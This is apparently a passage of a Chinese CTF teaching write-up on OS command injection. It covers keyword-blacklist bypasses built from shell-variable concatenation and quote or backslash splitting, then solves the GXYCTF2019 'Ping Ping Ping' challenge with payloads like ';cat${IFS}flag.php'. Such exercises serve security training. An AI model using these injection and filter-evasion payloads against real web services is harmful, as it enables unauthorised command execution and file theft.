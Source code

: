 使用shell变量拼接被黑名单限制的关键词

```PHP
a=c;b=at;c=fl;d=ag;e=.txt;$a$b $c$d$e;
```

#### 单双引号

- 单引号----`''`
- 双引号---`""`
- 反斜杠--- `\`

我们可以通过`ca''t ca""t c"a"t ca\t`这样来bypass’

### 一道比较综合的例题

[GXYCTF2019]Ping Ping Ping

> 之前让大家做过一下

https://buuoj.cn/challenges#[GXYCTF2019]Ping%20Ping%20Ping

进入题目发现提示我们传入ip

```PHP
?ip=127.0.0.1;ls
?ip=127.0.0.1;tac flag.php
?ip=127.0.0.1;cat${IFS}flag.php 
?ip=127.0.0.1;cat$IFS$1flag.php
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=ZGU0MzgzYTU1OWM3Yjk0ODU3YmNhODc1YjY3OGMxYmZfOFhPODhZYU9XNkp1QWFleExyaHF5VkdsdXVrWU90c3NfVG9rZW46UFhmSWJhUTZBb0JNeW54Um1XUWNaME5sbklnXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

我们简单地传入127.0.0.1,测试一下发现是可以ping的

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=Y2RmNDBhMWNiNjg2MmY4NDBjNjM4ZmUwNTI1MmUzNjNfcjlTd1czV0tJVFdsMGh1VzRYRm1pSDd6TktVZ3Q0Mm9fVG9rZW46STNwZWJWY3FUb0lPUFZ4eGVzU2NDcXJvbkllXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

尝试命令执行

```PHP
?ip=127.0.0.1;ls
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=NmFlZjc5OWYzYjFlOTUzN2E3YTQ0Zjg1OTA1ZmM3OWRfdml4d1BrSGV6WWs3UXBXVlFlWUtpZ2E1aUhHMjV0RzNfVG9rZW46SUx2eWJQUnV1bzZyRE54VDF5TGNpZ3hnbllnXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

过滤空格

```PHP
?ip=127.0.0.1;cat flag.php
```

![img](https://rcnq8t428wlu.feishu.cn/space/api/box/stream/download/asynccode/?code=MGUyM2YwN2U3YWY2ZDI1ODgxNjBjYjY2M2U4NGE2NmVfT2NYZ01VR0lialhRS1pxbDJqWkJyanVrZHdDOVhhOUZfVG9rZW46RW5KM2JuZWhtbzlvbW54ZHBmcWM1NlJrbnFiXzE3MzY3ODEzNjc6MTczNjc4NDk2N19WNA)

过滤一些符号---{}

```PHP
ip=127.0.0.1;cat${IFS}flag.php
```
